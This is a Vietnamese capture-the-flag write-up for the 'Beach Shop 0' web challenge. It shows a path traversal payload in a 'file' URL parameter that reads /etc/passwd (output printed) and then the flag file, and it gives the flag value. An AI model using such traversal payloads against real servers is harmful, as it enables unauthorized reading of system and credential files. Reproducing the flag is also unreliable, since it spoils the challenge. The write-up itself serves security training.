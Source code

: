 # VSL Summer CTF

<img src="https://github.com/Thuanle2401/VSL-CTF/blob/main/UploadFile1/images/VSL-summer.png?raw=true" width="500" height="300">

---
# Challenge: Beach Shop 0
---
## 1. Thông tin người thực hiện
- Họ và tên: Lê Ngọc Thuận

## 2. Thông tin Challenge:
- Link: http://61.14.233.78:5000
- Tính năng: Đọc nội dung hình ảnh (về đồ bơi) ở phía server và hiển thị cho người dùng.

## 3. Solution:
- Ta có thể đoán được việc trang web đọc nội dung của file ở server sau đó hiển thị phía client. Vậy sẽ ra sao nếu ta lợi dụng tính năng này để server đọc một nội dung của 1 file bất kì và hiện thị cho phía client.

- Tại url: http://61.14.233.78:5000/images?file=swimming_goggles.jpg có 1 param là `file` và có giá trị `swimming_goggles.jpg`, ta thử thay giá trị của param này bằng `../../../../../../../../../etc/passwd` và có vẻ như server cho ta download file `passwd`.

![img](./image/1.png)

- Ta sẽ thử đọc nội dung của file `passwd`:
<pre>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
</pre>

- Từ những điều trên, ta có thể kết luận rằng server đã bị **Path Traversal**, loại lỗi cho phép kẻ tấn công có thể thao túng được file path của chương trình và trong trường hợp này kẻ tấn công có thể đọc bất kì nội dung của 1 file nào đó trên server.

- Bây giờ, ta chỉ cần đọc nội dung flag và giải được challenge, thay giá trị của param `file` thành `../../../../../../../../../flag.txt` và ta nhận được flag là: `VSL{b34ch_sh0p4th_tr4v3rs4l_2idmwiq9@39!}`







